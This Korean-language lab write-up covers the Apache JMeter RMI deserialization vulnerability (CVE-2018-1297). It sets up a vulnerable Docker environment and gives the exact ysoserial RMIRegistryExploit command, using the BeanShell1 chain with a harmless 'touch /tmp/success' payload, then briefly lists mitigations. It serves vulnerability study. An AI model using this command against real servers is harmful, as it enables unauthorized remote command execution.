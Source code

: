#
**<h1>Jmeter RMI 역직렬화 명령 실행 취약성 (CVE-2018-1297)</h1><br/>**
<br/>
Apache JMeter는 미국 아파치 소프트웨어 재단(American Apache Software Foundation)이 스트레스 테스트 및 성능 테스트를 위해 Java 언어로 작성한 오픈 소스 소프트웨어 세트입니다.<br/>
2.x 및 3.x 버전에는 역직렬화 취약점이 있으며, 공격자는 이 취약점을 이용하여 대상 서버에서 임의의 명령을 실행할 수 있습니다.<br/>
<br/>
<h2>취약성 환경 실행 :</h2><br/>

```
docker compose up -d
```
저는 칼리 리눅스에서 docker를 이용했습니다.<br/>
<br/>
실행이 완료되면 RMI 서비스가 시작되고 포트 1099를 수신합니다.<br/>
<br/>
<br/>
<h2>취약점 :</h2><br/>
ysoserial을 직접 사용하여 취약점 공격을 시행합니다.<br/>

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success’
```
위와 같은 명령어를 입력합니다.<br/> BeanShell1이라는 익스플로잇 체인을 이용했습니다.<br/>

```
docker compose exec jmeter bash
```
를 사용하여 컨테이너에 들어가면 '/tmp/success'가 성공적으로 생성된 것을 알 수 있습니다.<br/>
<img src = "https://user-images.githubusercontent.com/145894541/279195673-1a78ed24-c344-4ff7-842e-bdd592760078.jpg" width="90%"></img>
<br/>
<img src = "https://user-images.githubusercontent.com/145894541/279195860-68289fe6-82e7-4d12-9ee5-c92f3d1a9ba8.jpg" width="90%"></img>
#
<br/>
<h2>정리</h2> <br/>
이 취약점은 Java 기반의 애플리케이션에서 발생할 수 있는 RMI(Remote Method Invocation) 취약점을 악용하는 것입니다.<br/>
여기에서 사용된 ‘ysoserial-0.0.6-SNAPSHOT-all.jar’는 ysoserial 프로젝트의 일부이며, java 직렬화 취약점을 악용하여 원격 코드 실행을 허용하는 페이로드를 생성하는 데 사용됩니다.<br/>
<br/>
이 페이로드는 /tmp/success와 같은 명령을 실행하려는 목적을 가지고 있으며, 이 취약점을 통해 공격자는 원격 시스템에서 임의의 명령을 실행하거나 시스템 파일을 수정할 수 있습니다.<br/>
이 취약점을 방해하기 위한 조치로는 RMI 서비스의 액세스 제한, 엄격한 권한 제어 및 java 직렬화 필터링 등이 있습니다.<br/>


